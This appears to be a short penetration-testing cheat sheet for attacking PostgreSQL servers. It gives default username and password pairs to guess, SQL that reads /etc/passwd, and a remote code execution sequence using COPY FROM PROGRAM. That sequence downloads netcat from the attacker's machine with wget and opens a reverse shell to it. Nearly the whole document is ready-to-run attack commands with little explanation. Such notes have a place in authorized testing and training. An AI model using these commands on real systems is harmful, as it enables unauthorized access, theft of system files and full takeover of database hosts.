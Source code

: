 Try logging in with the following command and common creds:

```bash - kali
psql -h $TARGET -U postgres -p 5432
```

postgres : postgres
postgres : password
postgres : admin
admin : admin
admin : password

#### Database navigation
List all databases
```sql - postgresql
\l
```

Use specific database
```sql - postgresql
\c <DATABASE>
```

List all tables in current database
```sql - postgresql
\dt
```

Describe a table
```sql - postgresql
\d <TABLENAME>
```

Get user roles
```sql - postgresql
\du+
```


#### Read a file
```sql - postgresql
CREATE TABLE demo(t text);
```

```sql - postgresql
COPY demo from '/etc/passwd';
```

```sql - postgresql
SELECT * FROM demo;
```

#### Directory traversal
```sql - postgresql
select pg_ls_dir('./');
```

#### Remote Code Execution

In Kali:
```bash - kali
which nc
```

```bash - kali
cp /usr/bin/nc .
```

![[Python#Server]]

In postgres:

```sql - postgresql
\c postgres;
```

Clean up after yourself
```sql - postgresql
DROP TABLE IF EXISTS cmd_exec;
```

Create the table you want to hold the command output
```sql - postgresql
CREATE TABLE cmd_exec(cmd_output text);
```

Run the system command via the COPY FROM PROGRAM function
```sql - postgresql
COPY cmd_exec FROM PROGRAM 'wget http://$KALI/nc';
```

```sql - postgresql
DELETE FROM cmd_exec;
```

![[rlwrap]]

```sql - postgresql
COPY cmd_exec FROM PROGRAM 'nc -n $KALI 80 -e /usr/bin/bash';
```
